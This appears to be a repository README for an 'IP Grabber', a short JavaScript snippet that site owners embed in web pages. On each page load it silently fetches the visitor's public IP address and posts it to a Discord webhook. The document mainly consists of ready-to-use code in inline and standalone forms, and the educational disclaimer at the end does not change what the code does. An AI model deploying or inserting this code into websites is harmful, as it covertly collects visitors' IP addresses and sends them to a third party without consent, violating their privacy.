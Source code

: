 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script leverages JavaScript's `fetch` API to dispatch a GET request to `https://api.ipify.org`, acquiring the user's IP address. Subsequently, it dispatches a POST request to a Discord webhook URL, carrying the acquired IP address as the payload. As a result, you'll receive a notification from the bot in your Discord server each time someone visits your website, containing the visitor's Public IP address. Notably, this script represents the most concise form possible.

## Usage

Just make sure to replace **`YOUR_DISCORD_WEBHOOK`** with your actual Discord webhook URL.

If you want to implement it in the html file directly use:**
```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => {
        fetch('YOUR_DISCORD_WEBHOOK', {
            method: 'POST',
            headers: { 'Content-Type': 'application/json' },
            body: JSON.stringify({ content: ip })
        });
    });
</script>
```
or use a seperate JavaScript file without the script tags:

```js
fetch('https://api.ipify.org')
  .then(response => response.text())
  .then(ip => {
      fetch('YOUR_DISCORD_WEBHOOK', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({ content: ip })
      });
  });
```

## Disclaimer

This script is intended for educational purposes only. Any use of this script to collect or share users' IP addresses without their consent may violate privacy laws and ethical principles. Ensure compliance with all relevant regulations and obtain proper authorization before deploying such functionality. Use at your own risk.

